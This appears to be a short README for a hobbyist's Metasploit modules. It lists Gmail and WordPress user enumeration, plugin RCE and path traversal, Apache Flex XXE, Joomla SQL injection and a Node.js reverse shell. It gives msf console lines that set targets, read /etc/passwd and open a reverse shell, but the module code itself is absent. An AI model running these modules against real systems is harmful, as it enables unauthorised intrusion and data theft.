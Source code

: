 # Modules MSF. 

Some modules that I created for fun. =]

##### gmail_checker.rb
Enumerate user of gmail. 

````
msf> use auxiliary/gather/gmail_checker
msf> set check_email email_target@gmail.com
msf> run
. 
. 
.
````
##### Wordpress Enumeration Users 
Enumerate adminnistrations users. 

````
msf> use auxiliary/gather/wordpress_enumerating_username
msf> set rhost <target>
msf> exploit 
.
.
.
````

##### wp_drive_rce
RCE in Google Drive plugin for wordpress .

##### wp_with_pritz
Path Transversal WP with Spritz for wordpress .

##### apacheflex_xxe
XXE Injection in Apache Flex 

````
msf> use auxiliary/http/apacheflex_xxe
msf> set rhost <target>
msf> set rport <target>
msf> set file  </etc/passwd>
msf> exploit 
.
.
.
`````


##### joomla_comfields_sqli_rce
SQL Injection in Joomla 

`````
msf> use exploits/unix/webapp>joomla_comfields_sqli_rce
msf> set rhost <target>
msf> set rport <target>
msf> exploit 
.
.
.
`````


##### nodejs_reverseshell
Reverse TCP using Node JS

`````
msf> use exploits/multi/handler
msf> set payload cmd/unix/reverse_nodejs
msf> set rhost <ip>
msf> set rport <port>
msf> exploit

`````

